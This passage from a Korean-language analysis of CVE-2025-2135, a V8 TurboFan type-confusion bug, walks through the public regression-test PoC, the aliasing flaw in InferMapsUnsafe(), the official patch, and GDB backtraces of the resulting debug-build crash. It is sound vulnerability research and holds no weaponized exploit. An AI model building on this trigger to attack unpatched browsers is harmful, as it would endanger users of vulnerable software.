    var v5 = v2[0];

    // If v2 == v3, v3 doesn't have HOLEY_DOUBLE_ELEMENTS anymore.
    Array.prototype.indexOf.call(v3);
  }
  // ...
}
```

- `main()`은 테스트 전체를 실행하기 위한 함수.
- `f0(v2,v3)`는 두 매개변수를 가진 내부 함수. 변수 이름이 다르다고 해서 서로 다른 배열임을 보장하지 않음.
- `var v4 = v3[0]`: `v3`의 첫 번째 원소를 읽음. V8은 실행 중 배열 원소 접근의 유형 피드백을 수집할 수 있음.
- `var v5 = v2[0]`: `v2`의 첫 번째 원소를 읽음. 두 접근은 다른 매개변수를 대상으로 함.
- `Array.prototype.indexOf.call(v3)`: `v3`를 `this`로 지정해 `Array.prototype.indexOf`를 호출. 검색값을 따로 전달하지 않았으므로 JavaScript 의미상 `undefined`를 찾는다. 이번 PoC에서는 반환값이 목적이 아니라 **V8이 잘못 추론한 배열 유형으로 `indexOf` 내부 경로를 실행하는 것이 목적**.

주석의 `TransitionElementsKindOrCheckMap: PACKED_SMI -> HOLEY_DOUBLE_ELEMENTS` 및 `HOLEY_DOUBLE_ELEMENTS -> HOLEY_ELEMENTS`는 이 PoC에서 TurboFan에 나타나도록 의도한 내부 최적화 연산의 전이를 설명. **JavaScript의 배열 원소를 한 번 읽었다고 항상 같은 전이가 발생한다는 뜻은 아니다.** 내부 IR과 유형 피드백·최적화 조건을 함께 보아야 함.

## 5.3 `TransitionElementsKindOrCheckMap`이란?

TurboFan은 JavaScript를 CPU가 실행할 코드로 바꾸는 과정에서 중간 표현(**IR: Intermediate Representation**)을 사용한다. IR 노드 하나는 객체 접근, 연산, 호출, Map 검사 같은 내부 작업을 나타낸다.

`TransitionElementsKindOrCheckMap`은 배열의 내부 표현과 관련된 전이를 수행하거나 특정 Map을 확인하는 역할을 하는 IR 연산이다. **이 노드가 객체의 Map을 바꿀 수 있다는 사실**을 `InferMapsUnsafe()`가 추론에 정확히 반영해야 한다.

정상적으로 알고 있어야 할 사실:

1. 앞선 시점에 어떤 객체가 `HOLEY_DOUBLE_ELEMENTS`였더라도,
2. 이후 연산이 그 객체의 Map을 `HOLEY_ELEMENTS`로 전이시켰다면,
3. 그 뒤에서 그 객체를 다룰 때는 과거 Map을 무조건 믿어서는 안 된다.

## 5.4 코드 18행 — 최적화 준비

```javascript
%PrepareFunctionForOptimization(f0);
```

V8 내부 테스트용 문법으로, 함수 `f0`을 최적화 실험 대상으로 준비한다. 일반적인 JavaScript 표준 문법은 아니며, V8의 테스트 플래그를 이용해 사용함.

## 5.5 코드 20~22행 — 첫 호출로 유형 피드백 수집

```javascript
const holey = new Array(1);
holey[0] = 'tagged'; // HOLEY_ELEMENTS
f0(holey, [1]);
```

- `new Array(1)`: 길이가 1이고 원소가 없는 슬롯을 가진 배열 생성.
- `holey[0] = 'tagged'`: 문자열 값을 저장하여 `HOLEY_ELEMENTS` 유형 형성.
- `[1]`: 빈 슬롯 없는 작은 정수 배열로, `PACKED_SMI_ELEMENTS`의 예다.
- `f0(holey, [1])`: 이때 `v2`는 `holey`, `v3`는 `[1]`을 참조하므로 **서로 다른 객체**다.

첫 호출은 원소 접근에 대한 피드백을 수집하도록 하는 역할을 한다. TurboFan은 관찰된 유형을 바탕으로 최적화를 구성할 수 있다. **다음 호출에서도 과거에 관찰한 유형이 반드시 유지된다는 보장은 없다**는 점이 중요함.

## 5.6 코드 24~28행 — 실수 배열과 최적화 호출

```javascript
const holey_double = new Array(1);
holey_double[0] = 0.1; // HOLEY_DOUBLE_ELEMENTS

%OptimizeFunctionOnNextCall(f0);
f0(holey_double, holey_double);
```

- `holey_double`은 빈 슬롯이 가능한 Double 배열을 만든다.
- `%OptimizeFunctionOnNextCall(f0)`는 다음 `f0` 호출에서 최적화를 수행하도록 요청.
- 두 인수로 **완전히 같은 배열 객체**를 전달. 이것이 첫 호출과의 결정적인 차이.

전달 관계를 단순화하면 다음과 같음.

```text
f0(holey_double, holey_double)
           |           |
           v           v
          v2          v3
           \          /
            \        /
           같은 JSArray
```

변수 `v2`와 `v3`는 이름과 **IR Parameter 노드**가 서로 다를 수 있음. 그러나 런타임에 둘 다 같은 JSArray 객체를 가리킴. 이를 **Aliasing(별칭 관계)**이라고 함.

### Aliasing 기초 예제

```javascript
function change(a, b) {
  a[0] = "hello";
  print(b[0]);
}
const oneArray = [0.1];
change(oneArray, oneArray);  // 출력: hello
```

`a`를 통해 배열을 수정하면 `b`도 그 배열을 보므로 변경을 관찰. 이 예제 자체는 CVE를 재현하는 코드가 아니라 **같은 객체 참조의 의미를 설명하기 위한 예제**.

## 5.7 코드 30~31행 — `main()`의 두 번 호출

```javascript
main();
main();
```

각 호출에서 새 `f0` 함수와 배열을 만들어 앞의 시험 절차를 다시 실행. **테스트가 두 번 작성된 구체적인 내부 이유(최적화 상태 유지, 테스트 안정화 등)는 이번 실험만으로 확정하지 않았다.** 정확한 이유를 임의로 단정하는 대신 파일에 실제로 두 번 호출되어 있음을 기록.

## 5.8 PoC의 핵심 흐름 요약

```text
① f0(v2, v3) 함수 생성
        ↓
② HOLEY_ELEMENTS / PACKED_SMI_ELEMENTS로 첫 실행
        ↓
③ 유형 피드백 수집
        ↓
④ %OptimizeFunctionOnNextCall(f0)
        ↓
⑤ HOLEY_DOUBLE_ELEMENTS 배열을 v2, v3에 동시에 전달
        ↓
⑥ 최적화 과정에서 배열 ElementsKind 전이 발생 가능
        ↓
⑦ 서로 다른 IR 노드가 같은 실제 객체를 참조하는 상황
        ↓
⑧ 취약한 Map 추론으로 과거 유형을 신뢰할 수 있음
        ↓
⑨ indexOf의 Double 배열 처리 경로에서 유형 검사 실패
```

이 중 ⑧은 공식 패치와 공개 기술 분석에 근거한 **원인 해석**이며, GDB에서 모든 IR 객체의 별칭과 최종 반환값을 독립적으로 증명했다는 뜻은 아님.

---

# 6. TurboFan과 Root Cause(근본 원인) 분석

## 6.1 TurboFan과 JIT 최적화

V8은 JavaScript 실행 속도를 높이기 위해 인터프리터와 최적화 컴파일러를 사용. TurboFan은 실행 도중 얻은 유형 피드백을 활용해 특정 자료형에 특화된 코드를 만들 수 있음.

예를 들어 이전 호출에서 배열을 숫자 배열로만 보았다면 특정 검사를 간략화하거나 효율적인 접근 코드를 선택할 수 있음. 이때 **가정이 틀렸다는 사실을 제대로 감지하고 안전하게 처리**해야 함. 잘못된 가정을 유지하면 실제 저장소와 다른 방식으로 접근하는 문제가 생길 수 있음.

`ReduceJSLoadProperty()`, `ReducePropertyAccess()`, `ReduceElementAccess()` 같은 함수는 JavaScript의 `arr[0]`과 같은 속성·원소 읽기 연산을 최적화하는 과정에 관여함. 뒤의 GDB `bt 8`에서 실제로 이 함수들로 이어지는 호출 경로를 확인.

## 6.2 IR 노드와 Effect Chain

TurboFan은 실행 작업을 그래프 형태로 나타냄. 여기서 노드는 값이나 연산을 의미. 중요한 연결 중 하나가 **Effect Chain**.

- **Value edge**: 계산값과 피연산자의 관계.
- **Control edge**: 조건문, 분기처럼 제어 흐름의 관계.
- **Effect edge**: 메모리 읽기·쓰기 및 호출처럼 실행 순서와 부수효과를 고려해야 하는 관계.

예를 들어 어떤 객체의 Map을 추론할 때는 현재 위치의 Map 검사만 보는 것이 아니라, 그 이전에 **객체를 바꿨을 가능성이 있는 연산**을 확인해야 함. `InferMapsUnsafe()`는 Effect Chain을 역방향으로 탐색하여 Map을 추론함.

```text
(과거의 Map 관련 검사/연산)
            ↑
       이전 effect
            ↑
      현재 effect
            ↑
     현재 배열 접근
```

실제 C++ 코드의 `GetEffectInput(effect)`는 이전 Effect 입력을 가져오는 동작.

## 6.3 핵심 소스 위치

**분석 파일:** `src/compiler/node-properties.cc`  
**함수:** `NodeProperties::InferMapsUnsafe()`

취약한 커밋의 해당 구간을 다음 명령어로 출력.

```bash
nl -ba src/compiler/node-properties.cc | sed -n '435,470p'
```





*그림 15~16. `InferMapsUnsafe()`의 MapGuard·CheckMaps·TransitionElementsKindOrCheckMap 및 그 이후 분기.*

### 6.3.1 429~431행 — 신뢰성 초기화와 탐색 시작

```cpp
InferMapsResult result = kReliableMaps;
while (true) {
  switch (effect->opcode()) {
    // ...
  }
}
```

- `InferMapsResult`: Map 추론의 반환 상태를 나타내는 자료형.
- `result`: 현재까지의 Map 신뢰성 판단.
- `kReliableMaps`: 추론 결과를 신뢰 가능한 상태로 시작.
- `while (true)`: 종료 조건이 나오기 전까지 Effect 탐색 반복.
- `effect->opcode()`: 현재 Effect 노드가 어떤 연산인지 확인.

이 신뢰성은 **항상 끝까지 그대로 유지되어야 한다는 뜻이 아님.** 이전 연산이 Map에 영향을 줄 수 있다면 `kUnreliableMaps`로 낮춰야 함.

**[소스 확인]** 실제 429행을 출력했다.



*그림 17. `result = kReliableMaps` 초기화 코드.*

### 6.3.2 438~453행 — MapGuard 및 CheckMaps

```cpp
case IrOpcode::kMapGuard: {
  Node* const object = GetValueInput(effect, 0);
  if (IsSame(receiver, object)) {
    *maps_out = MapGuardMapsOf(effect->op());
    return result;
  }
  break;
}
case IrOpcode::kCheckMaps: {
  Node* const object = GetValueInput(effect, 0);
  if (IsSame(receiver, object)) {
    *maps_out = CheckMapsParametersOf(effect->op()).maps();
    return result;
  }
  break;
}
```

`MapGuard`와 `CheckMaps`는 객체의 Map에 관한 정보를 제공하는 연산임. `receiver`와 현재 검사 노드의 대상이 같다고 확인되면 가능한 Map을 `maps_out`에 기록하고 `result`를 반환함. 이러한 구조를 이해하면 바로 아래의 `TransitionElementsKindOrCheckMap` 분기가 왜 특별한 취급이 필요한지 비교할 수 있음.

### 6.3.3 454~462행 — CVE의 핵심 분기

```cpp
case IrOpcode::kTransitionElementsKindOrCheckMap: {
  Node* const object = GetValueInput(effect, 0);
  if (IsSame(receiver, object)) {
    *maps_out = ZoneRefSet<Map>{
        ElementsTransitionWithMultipleSourcesOf(effect->op()).target()};
    return result;
  }
  break;
}
```

**줄별 의미**

- **454행**: `kTransitionElementsKindOrCheckMap`인 경우의 처리를 시작.
- **455행**: 현재 노드가 유형 전이를 적용하는 대상 IR 노드를 얻어 `object`로 저장.
- **456행**: `IsSame(receiver, object)`로 두 IR 노드가 같다고 확인되는지 검사.
- **457~459행**: 같다고 확인되면 전이 후 Map을 `maps_out`에 저장하고 `result` 반환.
- **461행**: 같다고 확인되지 않으면 `break`로 `switch`의 해당 분기 종료.

**문제점:** `IsSame()`이 `false`라는 사실은 **두 IR 노드가 같다고 증명할 수 없다는 뜻**이지, 런타임에 두 노드가 실제로 다른 객체를 참조한다는 뜻은 아님. 다른 Parameter 노드가 같은 배열을 참조할 수 있음. 따라서 하나의 IR 노드가 가리키는 객체의 Map이 바뀌었으면 다른 노드의 `receiver`가 가진 실제 객체도 같은 변경을 겪었을 수 있음.

### 6.3.4 550~555행 — Effect Chain 탐색을 계속하는 코드

```cpp
// Stop walking the effect chain once we hit the definition of
// the {receiver} along the {effect}s.
if (IsSame(receiver, effect)) return kNoMaps;

// Continue with the next {effect}.
DCHECK_EQ(1, effect->op()->EffectInputCount());
effect = NodeProperties::GetEffectInput(effect);
```

- **550행:** 대상 `receiver`의 정의 지점에 도달하면 더 이상 뒤로 탐색할 수 없으므로 `kNoMaps`를 반환.
- **553행:** 현재 Effect 노드가 이전 Effect 입력을 한 개 갖는지 디버그 조건 검사.
- **554행:** `GetEffectInput(effect)`를 이용해 이전 Effect 노드로 이동.
- **555행:** 루프 끝에 도달하면 다음 반복에서 또 다른 이전 노드를 검사.

`kNoMaps`는 **추론할 Map 정보를 찾지 못했다는 반환 상태**이고, `kReliableMaps`는 **추론한 Map의 신뢰성 상태**다. 따라서 둘을 같은 의미로 해석하면 안 된다. 함수는 경로에 따라 `return result`를 사용하거나 `kNoMaps`를 반환할 수 있다.





*그림 18~19. 550행의 탐색 종료 조건과 554행의 이전 Effect로 이동하는 코드. 558행부터는 다른 함수임.*

## 6.4 근본 원인 요약

```text
① PoC에서 v2와 v3가 같은 JSArray를 참조할 수 있음
② TurboFan에서는 v2와 v3가 서로 다른 IR 노드로 나타남
③ 한 연산이 배열의 ElementsKind/Map을 변경할 수 있음
④ InferMapsUnsafe()가 IsSame(receiver, object)를 검사
⑤ 두 노드를 같다고 확인하지 못함 → false
⑥ 취약한 코드에서는 별칭 가능성 때문에 신뢰성을 낮추지 않음
⑦ 과거 Map을 신뢰할 여지가 생김
⑧ 잘못 최적화된 코드는 FixedDoubleArray를 예상하지만
   실제 저장소는 FixedArray일 수 있음
⑨ Debug 빌드에서 Type cast failed 오류로 관찰
```

**중요한 증거 수준의 차이:** ①~⑦은 공식 패치와 PoC·공개 원인 분석을 통해 성립하는 취약점 구조다. GDB에서는 `false` 분기와 이후 550행 이동을 직접 관찰했으나, **그 특정 호출이 최종적으로 과거 Map을 신뢰 가능한 상태로 반환했는지**는 아직 확인하지 못함.

---

# 7. 공식 패치 분석 및 수정 버전 검증

## 7.1 공식 커밋과 변경 파일

공식 패치:

- 커밋: `8b490a9690b859346a68a3d2a7008b4e1852c3ea`
- 부모 커밋: `8f51e033902da9b786358e6e82f0dc57b46464dc`
- 메시지: `[turbofan] Fix TransitionElementsKindOrCheckMap`
- 이슈: `400052777`
- 수정 파일: `src/compiler/node-properties.cc`
- 추가 테스트: `test/mjsunit/compiler/regress-400052777.js`

```bash
git show 8b490a9690b859346a68a3d2a7008b4e1852c3ea -- src/compiler/node-properties.cc
```

`git show`는 패치의 변경 사항을 보여줄 뿐 현재 소스코드를 자동으로 수정하지 않는다. 실제 화면의 `+`는 **추가된 코드**를 뜻한다.



*그림 20. 공식 패치의 `result = kUnreliableMaps;` 추가 확인.*

## 7.2 코드 비교

### 패치 전

```cpp
if (IsSame(receiver, object)) {
  *maps_out = ZoneRefSet<Map>{
      ElementsTransitionWithMultipleSourcesOf(effect->op()).target()};
  return result;
}
break;
```

### 패치 후

```cpp
if (IsSame(receiver, object)) {
  *maps_out = ZoneRefSet<Map>{
      ElementsTransitionWithMultipleSourcesOf(effect->op()).target()};
  return result;
}
// `receiver` and `object` might alias, so
// TransitionElementsKindOrCheckMaps might change receiver's map.
result = kUnreliableMaps;
break;
```

공식 패치에서 추가한 세 줄의 뜻:

1. **`receiver`와 `object`는 별칭 관계일 수 있다.** 두 IR 노드가 다르다고 해서 실제 객체가 다르다고 확정할 수 없다.
2. **`TransitionElementsKindOrCheckMap`은 `receiver`의 Map을 변경했을 수 있다.**
3. 따라서 **`result = kUnreliableMaps;`로 신뢰성을 낮춰야 한다.**

핵심은 Map을 반드시 다른 값으로 바꾸는 것이 아니라 **기존 추론을 안전하게 신뢰할 수 없다는 사실을 표시**하는 것이다. 이후 최적화 단계가 이 신뢰성 상태를 고려하게 된다.

## 7.3 수정 버전으로 이동과 의존성 동기화

```bash
git checkout 8b490a9690b859346a68a3d2a7008b4e1852c3ea
git rev-parse HEAD
gclient sync
```

**[실험 확인]** `gclient sync`에서 다음과 같은 메시지가 나타났다.

```text
Syncing projects: 100% (44/44), done.
WARNING: 'v8/tools/win' is no longer part of this client.
It is recommended that you manually remove it or use 'gclient sync -D' next time.
```

`tools/rust`, `third_party/rust`, `third_party/libpfm4` 등에도 비슷한 경고가 표시되었다. 이는 여러 커밋으로 소스 버전을 바꾼 뒤 **현재 의존성 목록에서 빠진 이전 디렉터리가 남아 있다는 경고**다. 당시 해당 경고만으로 빌드 실패로 판단하지 않았고, 실제로 수정 버전 빌드에 성공하였다.



*그림 21. 이전 의존성 폴더 관련 안내. 임의 삭제나 `gclient sync -D`는 시행하지 않음.*

## 7.4 수정 버전 별도 Debug 빌드

취약한 빌드를 보존하고 수정 버전을 다른 출력 디렉터리에 생성했다.

```bash
gn gen out/fixed-debug --args='is_debug=true is_component_build=false target_cpu="x64" symbol_level=1'
ninja -C out/fixed-debug -j 2 d8
echo $?
```

**[실험 확인]**

```text
Done. Made 618 targets from 153 files in 585ms
[2266/2266] LINK ./d8
0
```





*그림 22~23. 수정 버전 빌드 설정 및 `d8` 링크 성공.*

## 7.5 수정 버전에 동일한 PoC 실행

```bash
./out/fixed-debug/d8 --allow-natives-syntax --turbofan --no-always-turbofan ../poc/regress-400052777.js
echo $?
```

**[실험 확인]** 오류 출력 없이 정상 종료하였고 종료 코드 `0`을 확인했다.



*그림 24. 패치 버전의 동일 PoC 정상 종료 확인.*

### 패치 전후 결과 비교

| 구분 | 취약한 버전 | 수정된 버전 |
|---|---|---|
| 커밋 | `8f51e033902d...` | `8b490a9690b8...` |
| 빌드 | `out/vuln-debug` | `out/fixed-debug` |
| 실행 JS | 공식 `regress-400052777.js` | **같은 파일** |
| Fatal Error | 발생 | 발생하지 않음 |
| 주요 관찰 | `Expected FixedDoubleArray but found [FixedArray]` | 출력 없이 종료 |
| 종료 상태 | 비정상 종료/코어 덤프 표시(숫자 종료코드는 따로 기록하지 않음) | `echo $?` = `0` |

**결론:** 동일한 공식 회귀 테스트에 대해 패치 전에는 유형 불일치 오류가 발생했고 패치 후에는 정상적으로 완료되었다. 이는 **해당 취약점에 대한 수정 코드가 PoC에서 관찰된 문제를 해결했다는 근거**다.

---
# 8. GDB 동적 분석 — Fatal Error와 호출 스택

## 8.1 GDB 설치 확인 및 분석 대상 전환

수정 버전과 비교를 완료한 뒤, GDB 분석에서는 다시 **취약 버전의 C++ 소스**를 선택했다. 실행 파일과 화면에 보이는 소스 버전이 불일치하면 줄 번호 또는 변수 해석이 혼란스러울 수 있기 때문이다.

```bash
gdb --version
# GNU gdb (Ubuntu 17.1-2ubuntu1) 17.1

git checkout 8f51e033902da9b786358e6e82f0dc57b46464dc
```




*그림 25~26. GDB 17.1 설치 확인 및 소스코드 취약 커밋으로 복귀.*

## 8.2 GDB 실행

```bash
gdb --args ./out/vuln-debug/d8 \
  --allow-natives-syntax --turbofan --no-always-turbofan \
  ../poc/regress-400052777.js
```

여기서 `gdb --args`는 뒤의 프로그램(`d8`)과 그 인수를 GDB에 등록한다. `pwndbg>` 프롬프트는 pwndbg 확장 기능이 적용된 GDB 입력창이며, `d8>` JavaScript 입력창과는 다르다.

```gdb
run
bt 20
```

- `run`: 등록된 프로그램 실행.
- `bt`: Backtrace, 현재까지 이어진 함수 호출 스택 확인.
- `20`: 최대 20개 프레임 출력.

## 8.3 GDB 호출 스택 결과

**[실험 확인]** 핵심 부분:

```text
#0  operator() at ../../src/base/platform/platform-posix.cc:731
#1  Abort() at ../../src/base/platform/platform-posix.cc:731
#2  V8_Fatal() at ../../src/base/logging.cc:215
#3  CheckObjectType() at ../../src/objects/object-type.cc:79
#4  Builtins_ArrayIndexOfHoleyDoubles()
#5  ?? ()
...
#13 Builtins_InterpreterEntryTrampoline()
```



*그림 27. 취약한 PoC에서 Fatal Error로 중단된 시점의 GDB `bt 20` 결과.*

스택 프레임 번호가 작을수록 **현재 중단 지점에 가까운 함수**다. 실제 호출 관계를 설명할 때는 `#4` 쪽 내부 배열 처리에서 유형 검사 실패가 발생하고 `#3`→`#2`→`#1`의 치명적 종료 처리로 이어졌다고 읽는 것이 적절하다.

| 함수 | 해석 |
|---|---|
| `Builtins_ArrayIndexOfHoleyDoubles()` | 실수형 HOLEY 배열을 위한 `indexOf` 내부 처리 경로. 공식 PoC의 `Array.prototype.indexOf.call(v3)`와 연관 |
| `CheckObjectType()` | 예상 자료형과 실제 객체 유형 검사 |
| `V8_Fatal()` | 치명적 오류 메시지 출력 처리 |
| `Abort()` | 비정상 종료를 요청 |
| `?? ()` | 함수 이름을 GDB가 해석하지 못한 프레임. JIT 코드 등의 영향 가능 |

**중요:** 이 Backtrace는 **유형 불일치가 검출된 시점**의 스택이다. `InferMapsUnsafe()`는 이전의 최적화/컴파일 단계에서 호출되기 때문에 Fatal Error 시점의 Backtrace에 반드시 남아 있어야 하는 것은 아니다. 이를 통해 오류 검출 위치와 근본 원인 위치를 구분하였다.

## 8.4 소스코드 파일을 GDB가 못 찾는 문제

`frame 3`으로 `CheckObjectType()` 프레임을 선택할 때 다음 경고가 출력되었다.

```text
Download failed: 부적절한 인수.
Continuing without source file ../../src/objects/object-type.cc.
그런 파일이나 디렉터리가 없습니다
```



*그림 28. GDB가 디버그 정보에 기록된 상대 경로의 소스코드를 자동으로 찾지 못함.*

원인을 구분하기 위해 실제 경로를 확인했다.

```gdb
shell pwd
shell ls -l src/objects/object-type.cc
shell git ls-files -- src/objects/object-type.cc
```

**[실험 확인]**

```text
/home/apple/CVE-2025-2135/v8
-rw-rw-r-- 1 apple apple 2838 ... src/objects/object-type.cc
src/objects/object-type.cc
```



*그림 29. `object-type.cc`가 실제로 존재하고 Git에도 등록되어 있음을 확인.*

